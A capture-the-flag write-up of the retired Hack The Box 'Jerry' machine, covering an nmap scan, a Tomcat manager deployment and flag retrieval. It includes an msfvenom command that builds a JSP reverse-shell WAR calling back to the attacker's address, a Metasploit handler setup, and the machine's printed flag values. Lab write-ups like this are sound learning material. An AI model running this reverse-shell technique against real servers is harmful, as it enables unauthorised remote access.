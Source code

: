 Title:HTB: Jerry
Date: 09-12-2019 10:25
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

<img class="align-left" src="/media/2019.09/jerry_1.png" alt="Jerry VM homepage" width="262">

I started to work on [Hack The Box](www.hackthebox.eu) machine in 2018. This is a writeup for the
retired [Jerry](https://www.hackthebox.eu/home/machines/profile/144) machine.

<!-- PELICAN_END_SUMMARY -->

# Hack the Box

In 2018 I started to play with [Hack the box](www.hackthebox.eu). The principle
is similar to the [vulnhub](https://www.vulnhub.com/about/) machines: You got a
VM and have to root it. The main difference is that you are connected to a VPN 
nd the machines are shared between the users. Also, there is only 20 "active" VM
at a time. At the moment there is a total of 128 VM and therefore 108 retired.
Finally, nobody is publishing Writeup before the VM is retired.

One of the Drawback is that I completely forgot to write and publish this
writeup.

The Jerry machine is Windows server. This VM is classified as a trivial one. In
fact it is a really easy one.

# Network discovery

As usual, we start with a simple network scan using nmap in order to scan the
open TCP ports: Only the port 8080 is open with an HTTP service.

    :::text
    root@kalili:~# nmap -p- 10.10.10.95 -sSV
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-03 17:38 CET
    Nmap scan report for 10.10.10.95
    Host is up (0.019s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.41 seconds

When going to this page we see a simple Tomcat Application Manager.

![Tomcat application manager](/media/2019.09/jerry_2.png)


# Exploiting the administration interface

We generate a Java reverse shell payload using `msfvenom`:

    :::text
    root@kalili:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.14 LPORT=4444 -f war > reverse2.war

We start the handler using `metasploit`:

    :::text
    msf exploit(multi/handler) > use exploit/multi/handler 
    msf exploit(multi/handler) > show options 

    Module options (exploit/multi/handler):

      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------


    Payload options (java/jsp_shell_reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.15.14      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
      SHELL                   no        The system shell to use.


    Exploit target:

      Id  Name
      --  ----
      0   Wildcard Target

When running the War payload we got a shell as Administrator and we can start
listing the directories looking for the flags:

    :::text
    C:\apache-tomcat-7.0.88>dir c:\Users
    dir c:\Users
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users

    06/18/2018  10:31 PM    <DIR>          .
    06/18/2018  10:31 PM    <DIR>          ..
    06/18/2018  10:31 PM    <DIR>          Administrator
    08/22/2013  05:39 PM    <DIR>          Public
                  0 File(s)              0 bytes
                  4 Dir(s)  27,600,285,696 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\
    dir c:\Users\Administrator\Desktop\
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users\Administrator\Desktop

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:09 AM    <DIR>          flags
                  0 File(s)              0 bytes
                  3 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\flags
    dir c:\Users\Administrator\Desktop\flags
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

As we already are administrator we can read the flag for the two level:

    :::text
    Directory of c:\Users\Administrator\Desktop\flags

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:11 AM                88 2 for the price of 1.txt
                  1 File(s)             88 bytes
                  2 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>type c:\Users\Administrator\Desktop\flags\2*
    type c:\Users\Administrator\Desktop\flags\2*
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e

